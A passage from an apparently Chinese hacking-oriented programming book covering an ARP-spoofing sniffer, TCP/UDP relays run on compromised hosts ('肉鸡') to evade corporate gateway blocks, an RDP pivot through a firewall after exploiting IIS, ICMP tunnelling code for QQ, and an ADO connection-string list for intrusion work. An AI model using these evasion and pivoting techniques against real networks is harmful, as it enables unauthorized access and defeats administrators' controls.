rthread=CreateThread(NULL,0,sniff,(LPVOID)&opti,0,&threadrid); //创建一个新线程来监听网络数据包;
PacketSetHwFilter(lpadapter,NDIS_PACKET_TYPE_PROMISCUOUS) //将网络适配器设置为混杂模式,这样才可以监听流过本地主机的数据包;
PacketSetBuff(lpadapter,500*1024) //自定义网络适配器的内核缓的大小为 500*1024;
PacketSetReadTimeout(lpadapter,1) //设置接收一个数据包后等待的时间为 1 毫秒;
PacketReceivePacket(lpadapter,lppacketr,TRUE) //在设置为混杂模式后,接收所有的数据包;
sthread=CreateThread(NULL,0,sendMASR,(LPVOID)&opti,0,&threadsid);
sthread=CreateThread(NULL,0,sendSR,(LPVOID)&opti,0,&threadsid); //创建一个新线程发送特定的 ARP 数据包;
PacketSetNumWrites(lpadapter,2) //在发送一个数据包时,重复发送两次;
PacketSendPacket(lpadapter,lppackets,TRUE) //发送自定义数据包;
WaitForSingleObject(sthread,INFINITE); //等待发送 ARP 数据包的线程结束;
PacketGetStats(lpadapter,&stat) //获得网络适配器的统计信息。
```

#### 五、T-ARP 源代码


## 第 9 章 其他程序分析

### 9.1 突破网关限制 随心所欲 QQ

#### 一、欺骗网关上 QQ

QQ 乃朋友之间在网络上感情交流、技术交流的必备之品，少了它怎么能行呢？但是很多公司通常为了提高员工的工作效率，一般禁止员工在工作时间上 QQ。一是从行政上制裁，如发现一次扣 xxx 工资之类；二是从技术上封锁，例如在网关上做些限制。当然这样做无可厚非。但是下了班之后，封锁仍然不会打开，这样就很不爽了。这时候想要上 QQ 那可就要自己想办法了。

正所谓知己知彼，百战不殆。如果我们知道网关是通过什么技术来封锁的话，那么要突破就相对容易多了。首先我们换个角度来想想，假如我们是网管，会怎么样来实现封锁呢？QQ 用的是 UDP 协议，默认是用 4000 端口与外界通讯，那么我们在网关上把源端口是 4000 的 UDP 包丢弃就可以实现封闭 QQ 的目的了。怎么突破？很简单的，我们让 QQ 不用 4000 端口就可以了。那么怎样改端口呢？直接改的话很麻烦，但我们可以间接的改啊。QQ 默认是用 4000 端口，如果 4000 被占用的话，那么它就会用 4001，依此类推。因此上我们在启动 QQ 之前，先把 UDP 4000-4010 端口都占用掉，那么 QQ 启动的时候，就会顺理成章地使用 4011 端口了。很简单，不是吗？现在我们就来写个小程序实现这个目的。

鉴于篇幅限制也为了读者使用方便，程序代码不在刊中列出，放在本刊配套光盘中。


如果网管把全部 UDP 数据包都丢弃，那么这招就失灵了。怎么办？请接着看下面的内容。

#### 二、通过 SOCKET 代理上 IRC

通常公司不但会封锁 QQ，而且只允许员工浏览网页。例如在网关上做限制，除了允许访问外面的 TCP 80 端口，连接外面其他端口的请求都会被丢弃。这时候我们想上 IRC 去和朋友们交流、聊天的时候，就不能如愿了。QQ 和 IRC 可都是上网必备之品!

那么，我们怎么来突破呢？答案也是比较简单的。网关不是允许我们访问外面服务器的 TCP 80 端口吗？那么我们找个端口是 80 的 Socket 代理就解决问题了。我们提倡的是 DIY(Do It Yourself)，当然这也不是说什么东西都要自己来写，看各人的兴趣了。

复杂的 Socket 5 代理程序咱不会，咱写个简单的 Socket 数据转发程序还不行吗？程序流程是这样的：我们找一台互联网上的机器来给我们做数据转发，这样的机器很容易找。根据习惯，我们称这个为“肉鸡”。假如“肉鸡”的 IP 是 202.202.202.202，那么在“肉鸡”上运行一个我们写的程序 TCPAgent.exe，监听 TCP 80 端口（没办法啊，网关只允许我们连接外面的 80 端口），假如这个端口已经被 IIS 占用的话，那么就换一台没有启动 IIS 服务器的机器吧，重用端口不稳定。好的，启动 IRC 客户段（我以前喜欢用 Cjcbot2000，现在改用 HIRC 了），在 IRC 服务器栏填 202.202.202.202 这个地址，端口是 80。当我们的 TCPAgent 检测到我们的 IRC 客户端已经连接后，马上创建一个 Socket，连接到真正的 IRC 服务器 202.109.72.40 的 TCP 6667 端口（这个 IP 是 irc.sunnet.org 的 IP）。这样数据通道就建好了，HIRC<=====>肉鸡<=====>IRC Server，HIRC 把发往服务器的数据发送到了“肉鸡”，然后“肉鸡”把它转发给服务器，“肉鸡”再把服务器的返回数据转发给 HIRC。

程序代码如下：


如果网管连 TCP 80 都不让我们上，把全部 TCP 数据包都在网关上封杀了，那又该怎么办呢？不要着急，看完最后一部分你就会明白的。

#### 三、通过 TCP 和 UDP SOCKET 数据转发突破限制

我们在欺骗网关上 QQ 中提到一种情况，网管在网关设置，把 UDP 包全部丢弃，限制我们使用 QQ。这时候，我们要突破就比较麻烦了，不过还是有办法的，前提是允许 TCP 数据通过。这样我们可以用 TCP 和 UDP Socket 数据转发来突破，为此我写了个小程序来实现此功能，程序代码和注释附在后面。程序名称为 SuperAgent，我们先来看看此程序的用法：

```
E:\>SuperAgent.exe
SuperAgent use for TCP and UDP Socket data redird
Power by ey4s<ey4s@21cn.com>
http://eyas.3322.net
2001/6/7
usage: SuperAgent.exe <mode>
[mode]
-t <TargetIP> <TargetTCPPort> <LocalUDPPort>
-u <TargetIP> <TargetUDPPort> <LocalUDPPort> <LocalTCPPort>
```

此程序有两种工作模式：

- (1) 工作模式[-t]，提供 3 个参数，目标 IP 地址、目标监听的 TCP 端口和本地监听的 UDP 端口。
- (2) 工作模式[-u]，提供 4 个参数，目标 IP 地址、目标监听的 UDP 端口、本地监听的 UDP 端口和本地监听的 TCP 端口。

如果我们想顺利突破网关上 QQ，就需要一台互联网上的肉鸡的协助。假设我们的肉鸡的 IP 是 202.202.202.202，我们的网关的 IP 是 101.101.101.101，咱的机器在内网的 IP 为 192.168.0.81，腾讯的 QQ 服务器的 IP 是 202.104.129.253，监听的是 UDP 8000 端口。我们先用肉鸡运行 SuperAgent，如下：

```
E:\>SuperAgent -u 202.104.129.253 8000 4000 1234
OK!Work mode is [u].
```

## Listen TCP 127.0.0.1:1234 ok!
************OK!SuperAgent working now************
Wait for ey4s connect to me......:)

然后在本地运行SuperAgent,如下:

```
E:\>SuperAgent.exe -t 202.202.202.202 1234 8000
OK!Work mode is [t].
************OK!SuperAgent working now************
Bind UDP port 8000 ok.
Wait for UDP Socket have data to be recv.
```

再启动QQ,把服务器地址设置为127.0.0.1,端口设置为8000,上线。怎么样?虽然网管封杀了全部UDP包,但我们还是可以上QQ了吧?不过这样一来QQ收发信息都是通过服务器中转的。现在我来解释一下流程。

- (1) 肉鸡运行SuperAgent.exe后,监听TCP 1234端口,然后阻塞,直到本地运行的SuperAgent.exe连接上来。
- (2) 本地运行SuperAgent.exe后,监听UDP 8000端口,伪装成QQ的服务器,阻塞,直到QQ连接上来。
- (3) QQ请求上线,发送数据到我们伪装的QQ Server 127.0.0.1:8000。
- (4) 本地运行的SuperAgent.exe收到QQ发送过来的UDP数据后,连接到肉鸡监听的TCP 1234端口。
- (5) 本地的SuperAgent把UDP数据通过TCP Socket发送到肉鸡。
- (6) 肉鸡接收到本地发送来的TCP数据后,通过UDP Socket转发到真正的QQ Server。
- (7) 肉鸡接收真正的QQ Server发送回来的数据后,通过TCP Socket发送到本地的TCP Socket。
- (8) 本地的TCP Socket接收到肉鸡发送过来的TCP Socket数据后,通过UDP Socket转发到QQ。
- (9) 重复5-8步骤。

第一种情况是允许TCP数据通过,封闭所有UDP数据。我们来看第二种情况,封闭所有TCP数据,只允许UDP数据。这时候可能有人要问:要是TCP和UDP数据都不让通过,那怎么办?TCP和UDP全部禁止,这叫网关吗?不过如果ICMP允许的话,也可以用ICMP来转发。

继续说第二种情况的解决办法。我们还是利用SuperAgent这个程序来达到我们的目的,当然少不了一台互联网上的肉鸡的协助了。

我们先在本地运行:

```
E:\>SuperAgent.exe -u 202.202.202.202 5000 6000 6667
OK!Work mode is [u].
Listen TCP 127.0.0.1:6667 ok!
************OK!SuperAgent working now************
Wait for ey4s connect to me......:)
```

202.202.202.202是肉鸡的IP,5000是肉鸡监听的UDP端口,6000是本地用来与肉鸡通讯的UDP端口,这个可以随便填。最后面那个6667 是本地监听的TCP端口,这个也可以随便填。最后记得在HIRC设置服务器里面填写和这个一致就可以了。

然后我们在肉鸡上这样运行:

```
E:\>SuperAgent.exe -t 202.109.72.40 6667 5000
OK!Work mode is [t].
************OK!SuperAgent working now************
Bind UDP port 5000 ok.
Wait for UDP Socket have data to be recv.
```

202.109.72.40是irc.sunnet.org的IP, 6667是它监听的TCP端口, 这是真正的IRC服务器。5000是肉鸡监听的UDP端口。

启动HIRC, 服务器地址填上127.0.0.1:6667, 上线了吧?

工作流程如下:

- (1) 本地SuperAgent监听TCP 6667端口, 阻塞, 直到HIRC连接上来。
- (2) 肉鸡SuperAgent监听UDP 5000端口, 阻塞, 直到本地的SuperAgent有数据发送过来。
- (3) HIRC连接到本地伪装的IRC Server的TCP6667。
- (4) 本地SuperAgent接收到HIRC发送来的TCP数据后, 通过UDP Socket转发到肉鸡监听的UDP Socket。
- (5) 肉鸡监听的UDP Socket接收到本地发送过来的数据后, 连接到真正的IRC Server的TCP端口, 然后通过TCP socket把数据发送到IRC server。
- (6) 肉鸡接收IRC Server返回的TCP数据, 通过UDP Socket转发到本地的UDP。
- (7) 本地接收到UDP数据后, 通过TCP socket转发到HIRC。
- (8) 重复4-7, 第5步连接到IRC Server的TCP端口的不重复。

用TCP和UDP Socket数据转发有时候也可以用来突破防火墙的。

我们来看看这种情况。以下是网络拓扑图:


假设(其实这样情况我遇到过, 但没有以下说的复杂而已) 202.2.2.2是我们授权入侵的目标, 前面的FireWall的过滤规则是只允许外面访问202.2.2.2的80, 不允许202.2.2.2TCP连接出去, UDP数据包不做过滤。经过我们检测, 发现202.2.2.2的IIS有漏洞, 我们可以通过80执行命令, 而且打开了TermService服务, 登录验证漏洞没有补。但是由于有FW的阻挡, 所以我们是连接不上目标的TermService来取得Admin的权限。而且FW不允许TCP反向连接, 这样, 我们只能通过UDP和TCP Socket数据转发来达到目的。

这次我们不需要肉鸡的协助了, 先在本机192.168.0.2上运行:

```
E:\>SuperAgent.exe -u 202.2.2.2 5000 6000 3389
OK!Work mode is [u].
Listen TCP 127.0.0.1:3389 ok!
************OK!SuperAgent working now************
Wait for ey4s connect to me......
```

202.2.2.2是目标的IP, 5000是目标IP监听的UDP端口, 6000是本地监听的UDP端口, 3389是本地监听TCP端口, 伪装成TermService, 然后我们在目标上通过80运行SuperAgent.exe -t 127.0.0.1 3389 5000, 参数就不用解释了吧。

工作流程如下:

- (1) 本地监听TCP 3389端口, 阻塞, 直到TermClient连接上来。
- (2) 在目标机器上监听UDP 5000端口, 阻塞, 直到有UDP数据发送过来。
- (3) 用TermClient连接本地的3389。
- (4) 本地的SuperAgent把从TermClient接收到的TCP数据，通过UDP Socket发送到目标的UDP。
- (5) 目标的UDP Socket接收到数据后，连接到本地的TCP 3389，即真正的TermService。
- (6) 目标把接收到的UDP数据通过TCP Socket转发给TermService。
- (7) 目标接收TermService返回的TCP数据，通过UDP Socket发送到攻击者的UDP。
- (8) 本地的UDP Socket接收到目标UDP发送过来的数据后，通过TCP Socket转发给TermClient。
- (9) 重复步骤4,6,7,8。

启动TermClient，连接本地的3389，出现的是防火墙后面的目标终端服务的界面吧？
SuperAgent完整的C程序代码如下，我加了很多注释，希望对你有所帮助。


程序在VC++6.0，Windows2k上编译通过，编译好的版本在http://eyas.3322.net有下载。

### 9.2 网关封锁任我破

#### 一、现状

随着Internet网络的普及，各个中大型公司均建立了自己的局域网络，并与Internet相连接，而公司内部人员上网的限制也逐渐成为一个大家关心的话题。目前最为流行的网络工具大多是基于IP协议的，而其中最主要的两个协议就是TCP和UDP协议。HTTP、FTP等上层协议均是建立在TCP协议之上，而DNS，ICQ，TFTP等则是建立在UDP协议之上的。往往我们会遇到这种情况：公司禁止了UDP协议（很大一部分的网络通讯软件都是建立在UDP协议之上的），而仅开通了TCP协议。这样，我们就可以通过TCP协议来为我们转发UDP数据包，具体实现原理可以参看eyas的《突破TCP-IP过滤/防火墙进入内网》，里面详细讨论了如何实现TCP与UDP数据包之间的相互转发，在此就不多说了。现在进入正题，如何实现利用ICMP数据包突破网关的限制？

## 二、ICMP转发数据包原理

ICMP协议（Internet Control Messages Protocol，网际控制报文协议）是一种多功能的协议，在网络上有很多用处，比如ICMP扫描，拒绝服务（DoS）攻击，隧道攻击以及我们最常用到的Ping程序。而现在就利用ICMP协议来为我们转送UDP/TCP数据（假设本机被禁止了UDP或TCP协议）。大家知道一般的防火墙都是过滤了来自外部主机的回送请求(Echo Request)报文，也就是我们平时说的PING数据包，但为了让内部主机能够探测外部主机的当前状态，防火墙大都不会过滤回送应答（Echo Reply)数据包，而且ICMP报文可以在广域网上传送，这样我们就可以利用它来突破网关的种种限制。由于本地主机被禁止了UDP/TCP协议，但在网关上却没有被禁止，我们就可以先将UDP/TCP数据包以ICMP的形式发送到网关，然后网关再将它解码，构造成UDP/TCP数据报发送到我们的目的服务器；同样，服务器发送来的UDP/TCP数据包被网关所接收，网关将其解码后，以ICMP的形式发送到本地主机，本机再解码构包后发送到客户端程序，这样就实现了对网关限制的突破。一次发送/接收共需要两次解包和构包。本文主要针对使用ICMP协议来转发UDP数据包的功能，并以OICQ为背景，至于利用ICMP协议来突破TCP的限制，也大同小异。

## 三、QQicmp工作流程

以下是QQicmp的工作流程图:

QQ客户端 <--UDP--> QQicmp(1) <--ICMP--> QQicmp(g) <--UDP--> Tencent服务器。其中QQ客户端和QQicmp(1)都运行在本机上，而QQicmp(g)则是运行在网关上（QQicmp(1)，与QQicmp(g)均是同一程序，只是运行模式不同：参数-1是用于运行于本地主机；参数-g是运行于网关上）。Tencent服务器我想大家都清楚吧。QQ客户端与QQicmp(1)，QQicmp(g)与Tencent服务器之间以UDP通信，QQicmp(1)与QQicmp(g)之间则是以ICMP通信。

发送数据包时：首先QQicmp(1)在特定端口监听来自QQ客户端的UDP数据包，解码构包后以ICMP的形式发送到网关；QQicmp(g)在网关上监听来自QQicmp(1)的ICMP数据包，解码构包后以UDP的形式发送到腾讯服务器。

接收数据包时：首先QQicmp(g)在网关上接收来自腾讯服务器的UDP数据包，解码构包后以ICMP的形式发送到QQicmp(1)；当QQicmp(1)接收到ICMP数据包后，同样解码构包，然后以UDP的形式发送到QQ客户端。

## 四、QQicmp代码分析

Win2000/XP都提供了自己构造数据包的功能，也就是我们可以自己定义发送IP数据包的各项内容，当然也可以监听通过主机的基于IP协议的各种数据包。为了发送ICMP数据包及接收所有的IP数据包，我们必须自定义数据包的格式及校验和的求解:

```
typedef struct ipheader
{
unsigned char h_lenver; //头部长度及版本
unsigned char tos;//服务类型
unsigned short total_len;//报文总长度
unsigned short ident;//信息包标志
unsigned short frag_and_flags;//标志及分段偏移量
unsigned char ttl;//生命周期
unsigned char proto;//协议类型
unsigned short checksum;//IP校验和
unsigned intsourceip;//源IP地址
unsigned intdestip;//目的IP地址
}IPHEADER,*PIPHEADER;
typedef struct icmpheader
{
unsigned chartype;//ICMP类型:0->回送应答 8->回送请求
unsigned charcode,//代码
unsigned short checksum;//ICMP校验和
unsigned short id;//标识符
unsigned short seq;//序号
}ICMPHEADER,*PICMPHEADER;
unsigned short checksum(unsigned short *buffer,int size)//校验和的求法
{
unsigned long cksum=0;
while(size>0)//各位求和
{
cksum+=*buffer++;
size-=sizeof(unsigned short);
}
if(size)
cksum+=*(unsigned char *)buffer;
cksum=(cksum>>16)+(cksum & 0xffff);// 移位，位与运算
cksum+=(cksum>>16);
return (unsigned short)(~cksum); // 再取反
}
```

首先，我们更改QQ客户端里的服务器地址为127.0.0.1，端口改为QQicmp(1)的监听端口，当然你也可以保持默认的8000，这样QQicmp(1)就应该选在8000端口监听QQ客户端的数据。总之，QQ客户端里，服务器端口应该和QQicmp(1)里所选的端口相同。同时，QQ客户端也在端口4000（假设为非内网主机上的第一个QQ）监听来自QQicmp(1)的数据包。

我们可以看到，QQicmp(1)的主要作用之一是接收来自QQ客户端的UDP数据包：

```
sock[0][0]=socket(AF_INET,SOCK_DGRAM,0);//创建基于UDP协议的套接字
bind(sock[0][0],(struct sockaddr *)&sin[0][1],addrlen);//绑定到指定地址，指定端口上
iret=recvfrom(sock[0][0],msgrecv,sizeof(msgrecv),0,(struct sockaddr *)&tempr,&addrlen);//接收来自QQ客户端的UDP数据
然后以ICMP数据报的形式发送到QQicmp(g)，在此需要自己构造ICMP Echo Reply数据报，并将接收到的UDP数据填充到ICMP报文的数据段，
sock[0][1]=socket(AF_INET,SOCK_RAW,IPPROTO_ICMP); //创建ICMP协议的原始套接字，用来发送自定义数据报
bind(sock[0][1],(struct sockaddr *)&sin[0][2],addrlen); //并捆绑到指定地址，指定端口上
if(istbcs==0) //填充ICMP数据报头部
{
icmphdr.type=0;//类型：echo reply
icmphdr.code=0;//代码
icmphdr.checksum=0; //先将校验和设置为零
icmphdr.id=htons(65456);//序号
icmphdr.seq=htons(65456);//标志符，用以过滤数据报
memset(msgsend,0,sizeof(msgsend));
memcpy(msgsend,&icmphdr,sizeof(icmphdr));
istbcs+=sizeof(icmphdr);
}
memcpy(msgsend+istbcs,msgrecv,iret); //将接收到的UDP数据报的内容提取，放到即将发送的ICMP数据报内
icmphdr.checksum=checksum((USHORT *)&msgsend,ileft); //计算ICMP校验和
memcpy(msgsend,&icmphdr,sizeof(icmphdr)); //重新填充ICMP头部
iret=sendto(sock[0][1],msgsend,istbcs,0,(struct sockaddr *)&sin[0][3],addrlen); //发送ICMP数据报网关
同时，QQicmp(1)监听通过本机的IP数据报，筛选出来自QQicmp(g)既网关的数据报，
sock[1][0]=socket(AF_INET,SOCK_RAW,IPPROTO_IP); //创建原始套接字，接收所有的IP数据报
bind(sock[1][0],(struct sockaddr *)&sin[1][1],addrlen); //绑定到指定地址，指定端口上
DWORDdwbufferlen[10];
DWORDdwbufferinlen=1;
DWORDdwbytesreturned=0;
WSAIoctl(sock[1][0],SIO_RCVALL,&dwbufferinlen,sizeof(dwbufferinlen),&dwbufferlen,sizeof(dwbufferlen),&dwbytesreturned,NULL,NULL);
//设置为接收所有的数据报，需要mstcpip.h头文件。

cpp
iret=recvfrom(sock[1][0],msgrecv,sizeof(msgrecv),0,(struct sockaddr *)&templ,&addrlen);//接收所有数据报
if(iret<=28) //文件过小
{
continue;
}
if((icmp hdr->type!=0)||(icmp hdr->code!=0)||((icmp hdr->id)!=htons(65456))||((icmp hdr->seq)!=htons(65456))) //不符合接收条件
{
continue;
}
memcpy(msgsend+istbcs,msgrecv,iret);//将接收到的ICMP数据报的内容提取，准备以UDP的形式发送
```

解包后，用UDP数据报将接收到的来自网关的ICMP数据发送到QQ客户端，

```
cpp
idx=28; //ICMP数据报的前20字节是IP头部，接着的8字节是ICMP头部
iret=sendto(sock[1][1],&msgsend[idx],ileft,0,(struct sockaddr *)&sin[1][3],addrlen);//发送到QQ客户端
我们创建了两个线程在两个方向(udp-->icmp,icmp-->udp)上接收并传送数据，如果某个线程出错，就重新创建该线程，而未出错的线程则保持不变，
hthreads[0]=CreateThread(NULL,0,u2i,(LPVOID)0,NULL,&hthreadid[0]);//创建接收udp数据，发送icmp数据的线程0
hthreads[1]=CreateThread(NULL,0,i2u,(LPVOID)1,NULL,&hthreadid[1]);//创建接收icmp数据，发送udp数据的线程1
while(1)
{
dwret=WaitForMultipleObjects(2,hthreads,false,INFINITE);//等待某个线程的结束
if(dwret==WAIT_FAILED)//出错
{
cout<<"WaitForMultipleObjects Error: "<<GetLastError()<<endl;
return -1;
}
log=dwret-WAIT_OBJECT_0;
if(log==0)//线程0结束
{
CloseHandle(hthreads[0]);//关闭线程handle
closesocket(sock[0][1]);//关闭套接字
hthreads[0]=CreateThread(NULL,0,u2i,(LPVOID)0,NULL,&hthreadid[0]);//重新创建线程0
}
else if(log==1)//线程1结束
{
CloseHandle(hthreads[1]);
closesocket(sock[1][0]);
hthreads[1]=CreateThread(NULL,0,i2u,(LPVOID)1,NULL,&hthreadid[1]);
}
}
```

以上就是QQicmp(1)的工作原理。QQicmp(g)运行在网关上，虽然模式不同，但工作原理是一样的，只是数据包的流动方向有点差异。

## 五、QQicmp源代码


#### 六、小结

本节利用了ICMP协议来传输数据，但由于ICMP协议自身的原因，可靠性就不可能得到很好的保证。其实，你还可以用一些其他的方法来突破网关的限制，比如最近网上常谈到的ARP协议在某些情况下就可以使用，当然前提是你要获得网关的某些权限。以上谈到的各种方法，本质上都是利用其他未被禁止的协议来转发被禁止协议需要传送的数据，然后再用原本使用的协议将数据发送到目的主机。

## 9.3 ADO连接字符串集

在进行入侵、数据管理时，经常需要对数据库进行操作。通常来讲，当你想进行数据库操作时，第一步就是将其打开，然后进行我们想做的事情。但在繁多的数据库面前，它们连接的字符串是不相同的，我们进行编程的时候不知道该如何下手。下面是对常见的数据库连接字符串的集合，并有说明，供读者参考。

### 对dBASE数据库的连接

```
strConnection = _T("Driver={Microsoft dBASE Driver (*.dbf)};DriverID=277;Dbq=\Computer Name\DatabasePath;"); //这里仅仅指定路径
```

注意：在结构化查询语言中必须指定文件名，例如：

```
CString strQuery = _T("Select Name, Address From Clients.dbf");
```

### 对Excel数据库的连接

```
strConnection = _T("Driver={Microsoft Excel Driver (*.xls)};DriverId=790;"
"Dbq=C:\DatabasePath\DBSpreadSheet.xls;DefaultDir=c:\databasepath;");
```

### 对Text数据库的连接

```
strConnection = _T("Driver={Microsoft Text Driver (*.txt; *.csv)};"
"Dbq=C:\DatabasePath\;Extensions=asc,csv,tab,txt;");
```

注意：如果你使用表格定制文件，你必须建立schema.ini文件，设置Format=TabDelimited选项来连接你的字符串。同时，还必须指定文件名：

```
CString strQuery = _T("Select Name, Address From Clients.csv");
```

### 对Visual FoxPro进行连接

如果你使用数据库容器，请参看下面的连接字符串：

```
cpp
strConnection = _T("Driver={Microsoft Visual Foxpro Driver};UID=;"
"SourceType=DBC;SourceDB=C:\DatabasePath\MyDatabase.dbc;Exclusive=No");
```

如果没有使用数据库容器，你必须改变SourceType参数，令其为DBF：

```
cpp
strConnection = _T("Driver={Microsoft Visual Foxpro Driver};UID=;"
"SourceType=DBF;SourceDB=C:\DatabasePath\MyDatabase.dbc;Exclusive=No");
```

### 对Access数据库连接的字符串

```
cpp
strConnection = _T("Driver={Microsoft Access Driver (*.mdb)};"
"Dbq=c:\DatabasePath\dbaccess.mdb;Uid=;Pwd=;");
```

如果你是在工作站中使用，你必须指定路径、用户名和密码。达到这一效果可以有两种解决方法：或是使用用户名和密码的连接字符串，或是在打开操作时添加上用户名及密码，例如：

```
cpp
strConnection = _T("Driver={Microsoft Access Driver (*.mdb)};"
"Dbq=C:\VC Projects\ADO\Samples \AdoTest\dbTestSecurity.mdb;"
"SystemDB=C:\Program Files\Microsoft Office\Office\SYSTEM.mdw;"
"Uid=Carlos Antollini;Pwd=carlos");
```

或者可以这样：

```
cpp
strConnection = _T("Driver={Microsoft Access Driver (*.mdb)};"
"Dbq=C:\VC Projects\ADO\ Samples\AdoTest\dbTestSecurity.mdb;"
"SystemDB=C:\Program Files\Microsoft Office\Office\SYSTEM.mdw;");
if(pDB.Open(strConnection, "DatabaseUser", "DatabasePass"))
{
DoSomething();
pDB.Close();
}
```

如果你想使用执行模式，那么：

```
cpp
strConnection = _T("Driver={Microsoft Access Driver (*.mdb)};"
"Dbq=c:\DatabasePath\dbaccess.mdb;Exclusive=1;");
```

### ODBC Driver for Sql Server

使用标准安全模式，则：

```
cpp
strConnection = _T("Driver={SQL Server};Server=MyServerName;Trusted_Connection=no;"
"Database=MyDatabaseName;Uid=MyUserName;Pwd=MyPassword;");
```

使用信任安全连接，则：

```
strConnection = _T("Driver={SQL Server};Server=MyServerName;Database=myDatabaseName;Uid=;Pwd=;
");
```

你还可以使用Trusted_Connection这个参数，它使用Windows NT验证模式来验证合法性：

```
strConnection = _T("Driver={SQL Server};Server=MyServerName;Database=MyDatabaseName;"
"Trusted_Connection=yes;");
```

如果SQL服务是允许在同一台电脑上，你可以用“local”来代替服务器名称：

```
strConnection = _T("Driver={SQL Server};Server=(local);"
"Database=MyDatabaseName;Uid=MyUserName;Pwd=MyPassword;");
```

如果你想连接一台远程的SQL服务器，你必须指定IP、端口和Network Library，Network参数有以下几种：

- dbnmptw Win32 Named Pipes
- dbmssocn Win32 Winsock TCP/IP
- dbmsspxn Win32 SPX/IPX
- dbmsvinn Win32 Banyan Vines
- dbmsrpcn Win32 Multi-Protocol (Windows RPC)

例如：

```
strConnection = _T("Driver={SQL Server};Server=130.120.110.001;Address=130.120.110.001,1052;"
"Network=dbmssocn;Database=My DatabaseName;Uid=myUsername;Pwd=myPassword;");
```

### ODBC Driver for Oracle

当前的Oracle版本，应该使用：

```
strConnect = _T("Driver={Microsoft ODBC for Oracle};Server=OracleServer.world;"
"Uid=MyUsername;Pwd=MyPassword;");
```

旧版本的Oracle，使用：

```
strConnect = _T("Driver={Microsoft ODBC Driver for Oracle};ConnectString=OracleServer.world;"
"Uid=myUsername;Pwd=myPassword;");
```

### ODBC Driver for MySQL

如果你想连接一个本地的数据库，你可以使用下面的字符串：

```
strConnect = _T("Driver={MySQL ODBC 3.51 Driver};Server=localhost;Database=MyDatabase;"
"User=MyUserName;Password =MyPassword;Option=4;");
```

说明：Option=4表示生成调试文件c:\myodbc.log。

如果你想连接一个远程的数据库，你应该指定Server的名称或者IP，端口号为3306（默认端口）：

```
strConnect = _T("Driver={mySQL ODBC 3.51 Driver};Server=MyRemoteHost;Port=3306;Option=4;" "Database=MyDatabase;Uid=MyUsername;Pwd=MyPassword;");
```

### ODBC Driver for AS400

```
strConnect = _T("Driver={Client Access ODBC Driver (32-bit)};System=myAS400;Uid=myUsername;" "Pwd=myPassword;");
```

### ODBC Driver for SyBase

```
strConnect = _T("Driver={Sybase System 10};Srvr=MyServerName;Uid=MyUsername;Pwd=myPassword;");
```

### ODBC Driver for Sybase Sql AnyWhere

```
strConnect = _T("ODBC;Driver=Sybase SQL Anywhere 5.0;DefaultDir=C:\DatabasePath" "Dbf=C:\SqlAnyWhere50 \MyDatabase.db;Uid=MyUsername;Pwd=MyPassword;Dsn="";");
```

### 使用OLE DB提供者 (OLE DB Provider)

#### OLE DB Provider for Sql Server

标准安全模式：

```
strConnect = _T("Provider=sqloledb;Data Source=MyServerName;Initial Catalog=MyDatabaseName;" "User Id=MyUsername;Password=MyPassword;");
```

信任安全连接：

```
strConnect = _T("Provider=sqloledb;Data Source=MyServerName;Initial Catalog=MyDatabaseName;" "Integrated Security=SSPI;");
```

如果你想连接一个“命名实例 (Named Instance)” (SQL Server 2000)，你必须指定Data Source=Server Name\Instance Name，例如：

```
strConnect = _T("Provider=sqloledb;Data Source=MyServerName\MyInstanceName;" "Initial Catalog=MyDatabaseName;User Id=MyUsername;Password=MyPassword;");
```

在本地运行，请使用“local”关键字：

```
strConnect = _T("Provider=sqloledb;Data Source=(local);Initial Catalog=myDatabaseName;" "User ID=myUsername;Password=myPassword;");
```

连接远程数据库，则：

```
strConnect = _T("Provider=sqloledb;Network Library=DBMSSOCN;Data Source=130.120.110.001,1433;" "Initial Catalog=MyDatabaseName;User ID=MyUsername;Password=MyPassword;");
```

#### OLE DB Provider for MySQL

```
strConnection = _T("Provider=MySQLProv;Data Source=test");
```

当数据库的文件名为test时候，你只要这样做就可以了：server=localhost;DB=test

#### OLE DB Provider for AS400

```
strConnect = _T("Provider=IBMDA400;Data source=myAS400;User Id=myUsername;Password=myPassword;");
```

#### OLE DB Provider for Active Directory (活动目录)

```
strConnect = _T("Provider=ADSDSOObject;User Id=myUsername;Password=myPassword;");
```

#### OLE DB Provider for DB2

如果你使用TCP/IP协议进行连接：

```
strConnect = _T("Provider=DB2OLEDB;Network Transport Library=TCPIP;Network Address=130.120.110.001;"
"Initial Catalog=MyCatalog;Package Collection=MyPackageCollection;"
"Default Schema=MySchema;User ID=MyUsername;Password=MyPassword;");
```

如果你使用APPC进行连接：

```
strConnect = _T("Provider=DB2OLEDB;APPC Local LU Alias=MyLocalLUAlias;"
"APPC Remote LU Alias=MyRemoteLUAlias;Initial Catalog=MyCatalog;"
"Package Collection=MyPackageCollection;Default Schema=MySchema;"
"User ID=MyUsername;Password=MyPassword;");
```

#### OLE DB Provider for Microsoft Jet

使用标准安全模式：

```
strConnect = _T("Provider=Microsoft.Jet.OLEDB.4.0;DataSource=C:\DatabasePath\MmDatabase.mdb;"
"User Id=admin;Password=;");
```

使用工作组（系统数据库）：

```
strConnect = _T("Provider=Microsoft.Jet.OLEDB.4.0;Data Source=C:\DataBasePath\mydb.mdb;"
"JetOLEDB;System Database= MySystem.mdw;");
pRs.Open(strConnect, "MyUsername", "MyPassword");
```

以JET OLE DB Provider方式打开Excel工作簿：

```
strConnect=_T("Provider=Microsoft.Jet.OLEDB.4.0;"
"Data Source=C:\DatabasePath\ DBSpreadSheet.xls;"
"Extended Properties=""Excel 8.0;HDR=Yes;"";");
```

以JET OLE DB Provider工作方式打开文本文件：

```
CString strQuery = _T("Select Name, Address From Clients.txt");
```

#### OLE DB Provider for ODBC Databases

连接Microsoft Access database：

```
strConnect = _T("Provider=MSDASQL;Driver={Microsoft Access Driver (*.mdb)};" "Dbq=c:\DatabasePath\MyDatabase.mdb;Uid=MyUsername;Pwd=MyPassword;");
```

连接SQL Server：

```
strConnect = _T("Provider=MSDASQL;Driver={SQL Server};Server=MyServerName;" "Database=MyDatabaseName;Uid=MyUsername;Pwd=MyPassword;")
```

#### OLE DB Provider for Oracle

Microsoft OLE DB Provider for Oracle允许ADO直接访问Oracle数据库：

```
strConnect = _T("Provider=MSDAORA;Data Source=MyOracleDB;User Id=myUsername; Password=myPassword;");
```

标准安全模式：

```
strConnect = _T("Provider=OraOLEDB.Oracle;Data Source=MyOracleDB;" "User Id=myUsername;Password=myPassword;");
```

建立信任连接：

```
strConnect = _T("Provider=OraOLEDB.Oracle;Data Source=MyOracleDB;User Id=/;Password=;");
```

使用“OSAuthent”进行操作系统的验证：

```
